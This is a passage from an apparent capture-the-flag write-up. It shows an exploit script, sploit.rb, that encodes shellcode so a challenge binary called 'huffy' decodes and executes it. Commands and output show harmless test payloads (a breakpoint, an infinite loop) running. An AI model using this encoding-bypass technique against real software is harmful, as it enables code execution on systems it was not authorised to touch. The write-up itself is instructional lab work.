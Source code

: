 And ran it with the original test shellcode:

```

$ ruby ./sploit.rb
echo -ne '\x41\x4c\x42\x42\x4a\x70\xbb\x4a\xb7\x42\x43\x72\x70\xb3\x41\x4e\xb8\x70\x4e\xb8\x70\x4d\xbe\x70\xb8\x41\x4c\x42\x42\x48\x4a\x43\x4c\x7f\x00\x00\x00\x00\x00\x00\x00\x0f\xff\xff\xff\xff\xff\xff\xff\xff\xff\x77\x77\x77\x77\x77\x77\x88\x88\x88\x88\x88\x88\x88\x88\x33\x33\x33\x33\x33\x33\x33\x33\x3c\xcc\xcc\xcc\xcc\xcc\xcc\xcc\xcc\xbb\xbb\xbb\xbb\xbb\xbb\x11\x11\x11\x11\x11\x11\x11\x11\x1e\xee\xee\xee\xee\xee\xee\xee\xee\x66\x66\x66\x66\x66\x66\x66\x66\x66\x66\x99\x99\x99\x99\x99\x99\x99\x99\x99\x99\x22\x22\x22\x22\x22\x22\x22\xdd\xdd\xdd\xdd\xdd\xdd\xdd\xdd\xdd\xd5\x55\x55\x55\x55\x55\x55\x55\x55\x55\x5a\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa' > in; ./huffy < in
```

Then run the code I got:

```

$ echo -ne '\x41\x4c\x42\x42\x4a\x70\xbb\x4a\xb7\x42\x43\x72\x70\xb3\x41\x4e\xb8\x70\x4e\xb8\x70\x4d\xbe\x70\xb8\x41\x4c\x42\x42\x48\x4a\x43\x4c\x7f\x00\x00\x00\x00\x00\x00\x00\x0f\xff\xff\xff\xff\xff\xff\xff\xff\xff\x77\x77\x77\x77\x77\x77\x88\x88\x88\x88\x88\x88\x88\x88\x33\x33\x33\x33\x33\x33\x33\x33\x3c\xcc\xcc\xcc\xcc\xcc\xcc\xcc\xcc\xbb\xbb\xbb\xbb\xbb\xbb\x11\x11\x11\x11\x11\x11\x11\x11\x1e\xee\xee\xee\xee\xee\xee\xee\xee\x66\x66\x66\x66\x66\x66\x66\x66\x66\x66\x99\x99\x99\x99\x99\x99\x99\x99\x99\x99\x22\x22\x22\x22\x22\x22\x22\xdd\xdd\xdd\xdd\xdd\xdd\xdd\xdd\xdd\xd5\x55\x55\x55\x55\x55\x55\x55\x55\x55\x5a\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa' > in; ./huffy < in
```

Binary Encoded:

```

hello world, this is my shellcode!""""""33333333DDDDDDDDEUUUUUUUUwwwwww????????????????????????????????????????????????????????????????????????
Executing encoded input...
Segmentation fault
```

That's better! It decoded it properly thanks to my little hack! Not let's try my two favourite test strings, "\\xcd\\x03" (debug breakpoint, can also use "\\xcc") and "\\xeb\\xfe" (infinite loop):

```

$ ruby ./sploit.rb
echo -ne '\x2d\x08\xf7\x3c\x4b\x1e\x69\x5a' > in; ./huffy < in

$ echo -ne '\x2d\x08\xf7\x3c\x4b\x1e\x69\x5a' > in; ./huffy < in
Binary Encoded:
?Eg???
Executing encoded input...
Trace/breakpoint trap

$ ruby ./sploit.rb
echo -ne '\x59\xa5\x00\xff\x77\x88\x33\xcc\x44\xbb\x11\xee\x66\x92\x2d\xda' > in; ./huffy < in

$ echo -ne '\x59\xa5\x00\xff\x77\x88\x33\xcc\x44\xbb\x11\xee\x66\x92\x2d\xda' > in; ./huffy < in
Binary Encoded:
??"3DUfw??????
Executing encoded input...
[...infinite loop...]
```
